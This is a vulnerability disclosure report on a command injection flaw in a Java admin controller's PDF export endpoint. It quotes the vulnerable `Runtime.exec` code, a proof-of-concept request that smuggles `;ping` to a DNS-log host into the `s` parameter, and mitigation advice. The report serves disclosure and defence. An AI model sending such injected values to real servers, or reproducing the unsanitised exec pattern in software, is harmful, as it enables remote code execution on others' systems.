


# Vulnerability Report

## Title: Command Injection Vulnerability To RCE

### Summary:
A command injection vulnerability To RCE exists in the `examExportPDF` method of the `AdminPlanController` class. This vulnerability allows an attacker to execute arbitrary commands on the server by manipulating the `s` parameter in the request.

### Affected Endpoint:
`/admin/plan/examExportPDF`

### Vulnerability Type:
Command Injection To RCE

### Vulnerable Code:
```java
@Controller
@RequestMapping({"/admin"})
public class AdminPlanController extends EduBaseController {
  
  // ... Other code ...

  @RequestMapping({"/plan/examExportPDF"})
  public void examExportPDF(HttpServletResponse response, @RequestParam("s") String s) {
    try {
      Runtime run = Runtime.getRuntime();
      String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
      String fileName = System.currentTimeMillis() + ".pdf";
      String filePath = rootPath + "/pdffile/" + fileName;
      File dir = new File(rootPath + "/pdffile/");
      if (!dir.exists()) {
        dir.mkdir();
      }

      Process process = run.exec("/opt/source/wkhtmltox/bin/wkhtmltopdf --page-size A3 "
              + CommonConstants.contextPath + "/plan/exam/info?s="
              + s
              + " "
              + filePath);
      process.waitFor();
      response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
      InputStream in = new FileInputStream(new File(filePath));
      byte[] buf = new byte[1024];
      OutputStream out = response.getOutputStream();

      int len;
      while((len = in.read(buf)) > 0) {
        out.write(buf, 0, len);
      }

      in.close();
    } catch (Exception var13) {
      logger.error("---------------------" + var13);
    }
  }
}
```

### Proof of Concept (PoC):
An attacker can exploit this vulnerability by sending a specially crafted request to the affected endpoint. For example:

```
GET https://uri/admin/plan/examExportPDF?s=;ping 3e98dd86.log.dnslog.sbs.;
```

This request will execute the `ping` command on the server, sending a ping to the specified DNS log server, thus demonstrating the ability to execute arbitrary commands.



### Impact:
The impact of this vulnerability is critical as it allows an attacker to execute arbitrary commands on the server, potentially leading to full system compromise, data exfiltration, and further attacks on the network.

### Recommendation:
To mitigate this vulnerability, avoid using user-supplied input directly in command execution. Instead, use safer alternatives such as:

1. **Sanitize Input:** Validate and sanitize the input to ensure it does not contain any malicious content.
2. **Use Parameterized Commands:** Use APIs that support parameterized commands to prevent injection attacks.

For example, if using a command-line tool is unavoidable, consider using a library that escapes arguments properly or constructs the command in a safe manner.

### Conclusion:
The `examExportPDF` method in the `AdminPlanController` class is vulnerable to command injection due to improper handling of user input. This allows attackers to execute arbitrary commands on the server, posing a significant security risk. It is crucial to apply the recommended mitigations to secure the application.

### References:
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')](https://cwe.mitre.org/data/definitions/77.html)


